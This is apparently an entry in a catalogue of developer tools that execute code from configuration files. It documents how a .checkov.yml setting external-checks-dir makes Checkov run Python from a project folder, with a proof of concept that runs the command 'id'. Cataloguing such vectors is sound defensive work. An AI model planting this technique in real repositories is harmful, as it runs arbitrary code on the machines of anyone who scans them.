 ```yaml
---
title: checkov
tags:
  - cli
  - config-file
  - eval-py
references: 
- https://github.com/bridgecrewio/checkov?tab=readme-ov-file#configuration-using-a-config-file
files: [.checkov.yml,.checkov.yaml]
---
```


Checkov is a static analysis tool designed to review Infrastructure as Code (IaC) for security and compliance misconfigurations. It supports scanning configurations for Terraform, CloudFormation, Kubernetes, Helm charts, and more. 

Checkov's behavior can be extensively configured via command-line arguments, explicitly specified config files (`--config-file`), or automatically loaded from `.checkov.yml` or `.checkov.yaml` files within the current working directory (or the home directory).

Checkov allows specifying an `external-checks-dir` flag within its configuration file, pointing to a directory containing custom checks. If this directory includes a `runner.py` file, Checkov will execute the Python code within this file as part of its scanning process.

### `.checkov.yml`

```yaml
external-checks-dir:
- extra-checkov-checks
```

The directory `extra-checkov-checks` must contain a blank `__init__.py` and another Python file for the RCE.

### `extra-checkov-checks/POC.py`

```pyimport os
import tempfile
lock_path = os.path.join(tempfile.gettempdir(), 'poc.lock')
try:
    # Atomically create a lock file
    fd = os.open(lock_path, os.O_CREAT | os.O_EXCL | os.O_WRONLY)
    os.close(fd)

    # Actual POC code
    os.system('id')
except OSError as e:
    pass
```
